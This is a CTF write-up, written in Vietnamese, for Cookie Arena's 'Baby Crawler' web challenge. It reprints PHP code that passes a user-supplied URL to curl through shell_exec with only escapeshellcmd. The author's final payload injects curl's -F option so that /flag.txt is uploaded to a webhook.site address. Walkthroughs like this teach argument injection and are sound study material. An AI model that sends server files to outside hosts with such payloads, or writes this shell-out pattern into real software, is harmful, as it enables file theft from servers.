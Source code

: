 # Baby Crawler

Source: Cookie Arena

Tools: Curl

Fields: Web

- Giao diện
    
    ![image.png](image.png)
    
- src
    
    ```php
    <?php
    $title = "Baby Crawler";
    //----------------------------------
    function parse_html($cache_file)
    {
        $data = array(
            'title' => null,
            'description' => null,
        );
        $fp = file_get_contents($cache_file);
        if (!$fp)
            return $data;
    
        $res = preg_match("/<title>(.*)<\/title>/siU", $fp, $title_matches);
        if (!$res)
            return $data['title'] = null;
    
        $res = preg_match("/<meta name=\"description\" content=\"(.*)\"\/>/siU", $fp, $description_matches);
        if (!$res)
            return $data['description'] = null;
    
        $data = array(
            'title' => trim(preg_replace('/\s+/', ' ', $title_matches[1])),
            'description' => trim(preg_replace('/\s+/', ' ', $description_matches[1])),
        );
        return $data;
    }
    //----------------------------------
    if (isset($_POST['url'])) {
        $url = $_POST['url'];
        if (strpos($url, 'http') !== 0) {
            die('Only HTTP or HTTPS !');
        } else {
            $result = shell_exec('curl ' . escapeshellcmd($url));
            $cache_file = './cache/' . md5($url);
            file_put_contents($cache_file, $result);
            $data = parse_html($cache_file);
        }
    }
    
    if (isset($_GET['debug'])) {
        highlight_file(__FILE__);
        die();
    }
    
    ?>
    <!DOCTYPE html>
    <html lang="en">
    
    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <meta property="og:title" content="<?php echo $title; ?>">
        <meta property="og:description" content="<?php echo $title; ?>">
        <meta property="og:image" content="/static/main.png">
        <meta content='summary_large_image' property='twitter:card'>
        <meta property="og:url" content="https://cookiearena.org">
    
        <title><?php echo $title; ?></title>
    
        <link rel="icon" href="/static/favicon.ico" type="image/x-icon" />
        <link rel="shortcut icon" href="/static/favicon.ico" type="image/x-icon" />
        <link rel="stylesheet" type="text/css" href="/static/index.css" />
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css"
            integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
    </head>
    
    <body>
        <div class="bg-top"></div>
        <div class="wrapper h-100">
            <div>
                <div class="container text-center mt-5">
                    <img height="76px" class="img-responsive ctf_logo" src="/static/cookie.png" height="25" alt="Cookie Arena">
                </div>
            </div>
            <div style="margin-top: 7rem;" class="container">
                <fieldset>
                    <legend><?php echo $title; ?></legend>
                    <div>
                        <?php echo isset($cache_file) ? "<p>Cached File: <a href='/{$cache_file}'>{$cache_file}</a></p>" : "" ?>
                        <?php echo !empty($data) ? "<p>Article: {$data['title']}" : "" ?>
                        <?php echo !empty($data) ? "<p>Description: {$data['description']}" : "" ?>
                        <!-- /?debug -->
                    </div>
                    <div>
                        <form action="" method="POST">
                            <input type="text" class="form-control" name="url" value="https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html">
                            <br>
                            <input type="submit" name="submit" value="Crawl" class="btn btn-cookie uppercase">
                        </form>
                    </div>
            </div>
            </fieldset>
    
        </div>
        <footer class="footer fixed-bottom mb-5">
            <div class="container text-center">
                <a href="https://www.facebook.com/cookie.han.hoan" target="_blank" rel="norel noopener"><img width="24px"
                        height="24px" src="/static/facebook.png"></a>
                <a class="ml-2" href="https://discord.gg/cookiehanhoan" target="_blank" rel="norel noopener"><img width="24px"
                        height="24px" src="/static/discord.png"></a>
            </div>
            <div class="container text-center mt-1">
                <a href="https://battle.cookiearena.org" class="text-secondary" target="_blank" rel="norel noopener">
                    <small class="text-muted">Powered by Cookie Arena</small>
                </a>
            </div>
        </footer>
        </div>
    </body>
    
    </html>
    ```
    
- Liên quan đến URL —> SSRF —> tuy nhiên sau khi thử một vài payload thì có vẻ ko được ổn lắm
- theo hint thì vào /?debug để xem source code
- Sau khi thấy đoạn này lập tức nghĩ đến Command Injection, nhưng hàm escapeshellcmd($url) làm tôi vỡ mộng vì nó chặn hầu hết các kí tự thường dùng trong CI như: &#;`|*?~<>^()[]{}$\ , \x0A và \xFF

```php
$result = shell_exec('curl '. escapeshellcmd($url));
     $cache_file = './cache/'.md5($url);
     file_put_contents($cache_file, $result);
     $data = parse_html($cache_file); 
```

—> tới đây dường như bế tắc, nên tôi thử tìm kiếm hướng đi khác từ các yếu tố xung quanh. Sau khi lân la trên mạng tôi bt đc rằng lệnh curl có thể gửi file thông qua option -F. Đây là cú pháp:

```php
curl -F "tên_trường_file=@đường_dẫn_tệp" URL
```

—> Thử payload, sử dụng webhook server để hứng request

```php
-F file=@/flag.txt https://webhook.site/b1a08dcc-9679-46d0-89c2-b2c8121bd50c
```

—> Tuy nhiên web nó chửi tôi rằng “Only HTTP or HTTPS !” 👺

—> vậy nên ta sẽ sửa nhẹ cái payload thành:

```php
http://103.97.125.53:30767 32 -F file=@/flag.txt https://webhook.site/b1a08dcc-9679-46d0-89c2-b2c8121bd50c
```

- Vậy là trên webhook ta sẽ nhận được 1 file flag.txt

![image.png](image%201.png)
